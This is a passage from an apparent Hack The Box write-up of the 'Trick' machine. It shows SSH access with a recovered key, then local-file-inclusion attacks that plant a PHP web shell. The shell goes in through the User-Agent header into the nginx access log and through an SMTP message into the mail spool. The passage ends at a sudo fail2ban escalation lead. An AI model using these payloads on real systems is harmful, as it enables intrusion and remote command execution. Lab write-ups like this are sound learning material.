 ```bash
chmod 600 priv_key
ssh -i priv_key michael@10.129.227.180
```

We are in.

An alternative way to get access to michael’s shell is to exploit access.log and user agent.

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//var/log/nginx/access.log

#show us the log, scroll to the bottom to see the latest

#Now we can change the user agent to php code make sure not to get this wrong as it could crash the site:
User Agent: <?php system($_GET['cmd']); ?>

#then send the request
#Now adjust the parameters
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//var/log/nginx/access.log&cmd=id

#Now we can replace the cmd with a reverse shell
#ANnother way is to abuse smtp and send the web shell through mail.
nc -v trick.htb 25
hello trick.htb #test to see if the server is responsive
rcpt to:michael  #or<michael@trick.htb> if it's not local
data
subject: TITLe or something

<?php system($_GET['cmd']) ?>

.  #period to send the mail

#Now we use the LFI vuln
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//var/spool/mail/michael&cmd=id

#we can now also put a reverse shell here
```

 Checking what sudo privileges we have:

```bash
sudo -l

result:
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

We can edit the fail2ban configurations. Now to find what files we have access to:

